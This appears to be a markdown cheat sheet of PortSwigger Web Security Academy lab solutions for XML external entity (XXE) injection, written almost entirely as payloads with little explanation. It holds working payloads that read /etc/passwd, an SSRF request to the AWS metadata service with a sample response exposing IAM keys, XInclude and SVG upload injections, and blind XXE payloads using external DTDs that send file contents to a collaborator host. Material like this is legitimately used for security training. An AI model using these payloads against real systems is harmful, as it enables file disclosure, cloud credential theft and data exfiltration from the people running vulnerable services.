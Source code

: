 # XML external entity (XXE) injection

## Exploiting XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Response:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Connection: close
Content-Length: 546

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2019-12-04T10:39:48.174417Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "D7yHyaS5hANcoG9TRauJ",
  "SecretAccessKey" : "sjh5r5gtjQve7lX8O54ot3MdPlumGIIjiMseJ0C7",
  "Token" : "E6wskTuxF97EZqvoUbf9MiJigRSLPFzZIdIGXcE42TvUcNbDoPOWS4hORxQyw6AbJHVc5oKKuzA7jZqs4RBUH82sPaSbWAC0irnK38e7HPGrEa8LtXtPGhEbYn162TfasBvs1H7wOrDuV1iYykMb0vZEh0Oe6aqk0u4kbc2XmDRdUUmknShBqq4AVttL69qtTjsRQ4gzcbgMOC5rhDVHx01bTd9dHrt1XEAVxzBJY3Stj40s0nkAOyIvWCoKF68T",
  "Expiration" : "2025-12-02T10:39:48.174417Z"
}"
```

### Exploiting XInclude to retrieve files
Body is not XML itself but one of values is injected into XML context.. (for example SOAP)
```
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Exploiting XXE via image file upload
SVG file
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```

Read value from avatar image

## Blind XXE vulnerabilities

### Blind XXE with out-of-band interaction
```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burpcollaborator.net"> %xxe; ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data using a malicious external DTD
Exploit hosted at https://ac951f351fa00e4680194cf5014e0008.web-security-academy.net/exploit
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://suq7(...).burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

Modified HTTP request body
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac951f351fa00e4680194cf5014e0008.web-security-academy.net/exploit"> %xxe;]>
```

Burp Collaborator interaction: `GET /?x=64417c38891c HTTP/1.1`

### Exploiting blind XXE to retrieve data via error messages
Exploit hosted at https://ac381fd11f83c251800a4f4901dc00aa.web-security-academy.net/
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Modified HTTP request body
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac381fd11f83c251800a4f4901dc00aa.web-security-academy.net/exploit"> %xxe;]>
```

### Exploiting XXE to retrieve data by repurposing a local DTD
Verify the file exists
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Modified HTTP request body
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```
